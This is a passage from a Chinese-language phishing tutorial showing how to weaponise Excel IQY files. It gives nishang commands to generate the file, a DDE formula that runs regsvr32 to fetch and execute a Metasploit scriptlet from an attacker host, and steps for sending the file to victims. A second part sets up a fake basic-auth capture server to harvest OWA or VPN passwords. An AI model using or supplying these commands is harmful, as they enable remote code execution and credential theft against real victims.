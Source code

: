 > **iqy文件本身的内容很简单，只有一个包含恶意payload的url：http://192.168.2.148/msf.html ，关键也就在这个 html,我们需要把 html 的内容换成加载我们上面准备好的 meterpreter payload 的 iqy 语句 ：regsvr32 /s /n /u /i:http://192.168.2.148:8080/ZTPzcY6J5.sct scrobj.dll**

然后利用 `nishang-master\Client\Out-WebQuery.ps1` ,生成文件

```cmd
powershell -exec bypass -Command "& {Import-Module ".\Out-WebQuery.ps1";Out-WebQuery -URL http://192.168.2.148:8000/msf.html}"
```

![huaxr.png](https://s3.jpg.cm/2021/03/30/huaxr.png)

命令成功执行后，会生成一个`iqy文件`

接下来，打开Web服务目录，创建msf.html,内容为刚刚msf生成的paylaod

```txt
=cmd|'/c regsvr32 /s /n /u /i:http://192.168.2.148:8080/ZTPzcY6J5.sct scrobj.dll '!A0
```

接下来就可以想办法把之前生成的`iqy文件`发送给受害者。

当受害者双击打开时，默认会用Excel打开，弹出警告，点击启用

![huDEC.png](https://s3.jpg.cm/2021/03/30/huDEC.png)

因为前面的iqy文件是用cmd执行的，所以会继续询问是否启动另一个应用程序，CMD.EXE.

![huMjt.png](https://s3.jpg.cm/2021/03/30/huMjt.png)

点击是，正常情况下监听的msf会生成一个会话。

**借助IQY窃取目标用户密码**

```cmd
powershell -exec bypass -Command "& {Import-Module ".\Out-WebQuery.ps1";Out-WebQuery -URL http://192.168.2.1}"
```



```cmd
powershell -exec bypass
cd .\Utility 
Import-Module .\Start-CaptureServer.ps1 
Start-CaptureServer -AuthType Basic -IPAddress 192.168..2.1 -LogFilePath C:\windows\temp\log.txt
# 注意此处的认证要选择基础认证,监听的 ip 和上面生成 iqy 文件中的 ip 一致,通常都是本机 i
```

之后把上一步生成的 IQY文件发给靶机，打开	

![huZ5R.png](https://s3.jpg.cm/2021/03/30/huZ5R.png)

此认证窗口会连续出现三次，相信三次里面总有一个能用的账号密码,因为目标可能也压根搞不清楚这是什么东西,以为是系统的账号密码,就随便输,其实我们主要还是想利用这种方式钓到可用的 owa 或者 vpn 账号密码

![h1Gtz.png](https://s3.jpg.cm/2021/03/30/h1Gtz.png)

#### 2.8 **PPT 动作按钮特性构造 PPSX钓鱼**
